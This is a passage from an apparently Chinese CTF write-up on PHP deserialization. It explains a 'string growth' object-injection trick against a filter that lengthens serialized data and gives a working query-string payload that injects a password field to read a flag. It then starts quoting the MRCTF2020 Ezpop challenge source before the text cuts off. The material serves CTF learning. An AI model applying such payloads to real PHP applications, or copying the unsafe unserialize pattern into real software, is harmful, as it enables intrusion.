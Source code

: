 ```php
	{
			if($this->password==='yu22x')
			{
				include('flag.php');
				echo $flag;	
			}
			else
			{
				echo 'wrong password';
			}
		}
	}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```

这题就是典型的字符串增多类型了

明确构造的字符串

```php
";s:8:"password";s:5:"yu22x";}
```

长度是 30,已知一个 `Firebasky`提供的长度是 2

那么要写 15 个

构造 payload

```php
?1=FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732878111845-90cc42d8-5f61-46e4-997d-4655972e723a.png)

## [MRCTF2020]Ezpop1
```php
 <?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
```